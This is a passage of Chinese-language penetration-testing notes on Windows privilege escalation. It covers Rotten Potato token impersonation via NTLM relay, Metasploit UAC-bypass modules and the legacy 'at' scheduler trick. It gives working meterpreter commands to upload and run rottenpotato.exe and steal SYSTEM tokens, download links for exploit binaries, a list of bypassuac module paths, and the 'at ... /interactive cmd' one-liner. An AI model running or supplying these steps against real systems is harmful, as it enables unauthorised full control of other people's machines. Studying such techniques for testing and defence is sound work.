 单纯令牌窃取：WEB权限或本地权限

配合烂土豆提权：WEB权限或数据库权限

提权原理：

欺骗 “NT AUTHORITY\SYSTEM” 账户通过NTLM认证到我们控制的TCP终端。

对这个认证过程使用中间人攻击(NTLM重放)，为 “NT AUTHORITY\SYSTEM” 账户本地协商一个安全令牌。这个过程是通过一系列的Windows API调用实现的。模仿这个令牌，只有具有 SeImpersonatePrivilege (模仿安全令牌权限)的账户才能去模仿别人的令牌。一般大多数的服务型账户(IIS、MSSQL等)有这个权限，大多数用户级的账户没有这个权限。

所以，一般从web拿到的webshell都是IIS服务器权限，是具有这个模仿权限的。经有人测试结论，用户级账户一定概率成功(非100%失败)，用菜刀(IIS服务器权限)反弹meterpreter就会成功。

MSF

	meterpreter > upload /root/Rottenpotato/rottenpotato.exe
	meterpreter > excute -HC -f rottenpotato.exe
	meterpreter > use incognito
	meterpreter > list_tokens -u

发现令牌列表里存在system的令牌，再用system的令牌进行提权。

烂土豆版本:

	https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS16-075/potato.exe
	https://github.com/breenmachine/RottenPotatoNG/blob/master/RottenPotatoEXE/x64/Release/MSFRottenPotato.exe
	https://github.com/foxglovesec/RottenPotato

3.UAC bypass

它是Windows的一个安全功能，它支持防止对操作系统进行未经授权的修改，UAC确保仅在管理员授权的情况下进行某些更改。如果管理员不允许更改，则不会执行这些更改，并且Windows系统保持不变。


MSF

	exploit/windows/local/ask  # 弹出UAC确认窗口，点击后获得system权限
	exploit/windows/local/bypassuac
	exploit/windows/local/bypassuac_injection
	exploit/windows/local/bypassuac_fodhelper
	exploit/windows/local/bypassuac_eventvwr
	exploit/windows/local/bypassuac_comhijack


[使用Metasploit绕过UAC的多种方法](https://www.cnblogs.com/backlion/p/10552137.html)

[UACMe](https://github.com/hfiref0x/UACME)

4.at

适用版本：

Windows Server 2000/2003 、winxp/win7 等

at是winxp中内置的命令，它默认以system权限运行的，进行在指定计算机上的计划任务管理工作。所以可以用at进行提权。

	at "时间" /interactive cmd

可以看到以system权限启动了calc。

![](images/5.jpg)
